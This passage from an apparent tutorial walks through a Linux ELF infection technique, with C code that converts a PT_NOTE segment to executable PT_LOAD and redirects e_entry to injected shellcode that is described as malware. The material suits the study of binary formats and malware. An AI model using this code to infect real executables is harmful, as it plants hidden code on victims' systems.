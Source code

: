 Then we get the file size of the target ELF binary with `stat` by accessing `st_size`. We save this physical file size offset in `file_offset`. 

Then we generate a `memory_offset` using a high address by adding `0xc00000000` to our `file_offset`. This `memory_offset` is the virtual addressing where we want to load our shellcode to when our ELF file gets mapped. The high addressing ensures our shellcode will be mapped far away from any of the other data. And it's where we're going to point `e_entry`.

Then we alter the `PT_NOTE` into a `PT_LOAD` segment. We give it `read` and `execute` permissions. We set the `p_offset` field to our `file_offset` and our virtual memory address to the `memory_offset`. 

Then we adjust the `p_memsz` and `p_filesz` fields, incrementing them by the length of our shellcode -- making room for it in the virtual file image mapping. And last, we patch the `entry` of the ELF header to point to our `memory_offset` where our malware will be mapped to.


```C
    // Save the old entry point so we can jump later
    uint64_t original_entry = elf_header->e_entry;

    
    uint64_t sc_len = (uint64_t)shellcode_len;

    // Calculate offsets for patching the ELF and program headers
    
    struct stat st;
    if (fstat(elf_fd, &st) != 0) {
        fprintf(stderr, "Error getting ELF file metadata: %s\n", strerror(errno));
        close(elf_fd);
        free(elf_header);
        free(program_headers);
        free(shellcode);
        exit(1);
    }
    uint64_t file_offset = st.st_size;
    uint64_t memory_offset = 0xc00000000ULL + file_offset;

    // Look for PT_NOTE section
    for (int i = 0; i < elf_header->e_phnum; i++) {
        if (program_headers[i].p_type == PT_NOTE) {
            // Convert to a PT_LOAD section with values to load shellcode
            printf("[+] Found PT_NOTE section\n");
            printf("[+] Changing to PT_LOAD\n");
            program_headers[i].p_type = PT_LOAD;
            program_headers[i].p_flags = PF_R | PF_X;
            program_headers[i].p_offset = file_offset;
            program_headers[i].p_vaddr = memory_offset;
            program_headers[i].p_memsz += sc_len;
            program_headers[i].p_filesz += sc_len;
            // Patch the ELF header to start at the shellcode
            elf_header->e_entry = memory_offset;
            printf("[+] Patched e_entry\n");
            break;
        }
    }

    // Patch shellcode to jump to the original entry point after finishing
    patch(&shellcode, &shellcode_len, elf_header->e_entry, original_entry);

   
```
A few remarks about what's going on here, exactly:
```plaintext
p_type = PT_LOAD;             // Set PT_LOAD flag

```

[^1]: https://github.com/torvalds/linux/blob/master/include/uapi/linux/elf.h#L226
[^2]: https://man7.org/linux/man-pages/man5/elf.5.html
[^3]: https://docs.oracle.com/cd/E19683-01/817-3677/chapter6-83432/index.html
[^4]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L362
[^5]: https://man7.org/linux/man-pages/man2/execve.2.html
[^6]: https://man7.org/linux/man-pages/man2/brk.2.html
[^7]: https://stackoverflow.com/questions/6988487/what-does-the-brk-system-call-do
[^8]: https://elixir.bootlin.com/linux/v6.13.4/source/fs/binfmt_elf.c#L734
[^9]: https://docs.oracle.com/cd/E19683-01/816-1386/6m7qcobkp/index.html
[^10]: https://elixir.bootlin.com/glibc/glibc-2.1/source/elf/rtld.c
[^11]: https://docs.oracle.com/cd/E19683-01/816-1386/chapter6-83432/index.html
[^12]: https://en.wikipedia.org/wiki/Address_space_layout_randomization#Linux
[^13]: "Note on resolving Elf_Hdr->e_entry in PIE executables." https://archive.org/details/pocorgtfo20/page/n49/mode/1up